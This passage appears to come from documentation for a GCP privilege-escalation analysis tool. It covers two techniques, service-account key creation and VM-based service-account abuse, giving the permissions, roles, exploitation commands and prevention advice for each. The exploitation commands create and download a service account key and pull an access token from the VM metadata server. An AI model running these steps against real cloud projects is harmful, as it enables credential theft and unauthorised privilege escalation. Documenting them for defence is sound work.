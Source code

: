 **Required Permission**: `iam.serviceAccountKeys.create`

**Common Roles**:
- `roles/iam.serviceAccountKeyAdmin`
- `roles/iam.serviceAccountAdmin`
- `roles/owner`
- `roles/editor`

**Exploitation**:
```bash
# Create and download key
gcloud iam service-accounts keys create key.json \
  --iam-account=SA_EMAIL

# Use key from anywhere
export GOOGLE_APPLICATION_CREDENTIALS=key.json
gcloud auth list
```

**Prevention**:
- Enforce organizational policy: `constraints/iam.disableServiceAccountKeyCreation`
- Use Workload Identity instead of keys
- Monitor key creation events in audit logs
- Regularly rotate and audit existing keys

### 🟠 High Risk Techniques

#### 3. VM-based Service Account Abuse (`CAN_ACT_AS_VIA_VM`)
**Risk Score**: high (see risk thresholds in config)

**Description**: Deploy or modify VMs that run with a privileged service account's permissions.

**Required Permissions**:
- `compute.instances.create` OR `compute.instances.setServiceAccount`
- `iam.serviceAccounts.actAs`

**Common Roles**:
- `roles/compute.admin` + `roles/iam.serviceAccountUser`
- `roles/compute.instanceAdmin` + access to SA

**Exploitation**:
```bash
# Create VM with privileged SA
gcloud compute instances create attacker-vm \
  --service-account=privileged-sa@project.iam.gserviceaccount.com \
  --scopes=cloud-platform

# SSH and use metadata server
gcloud compute ssh attacker-vm
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

**Prevention**:
- Restrict `compute.admin` role
- Use least-privilege service accounts for VMs
- Enable OS Login
- Disable project-wide SSH keys
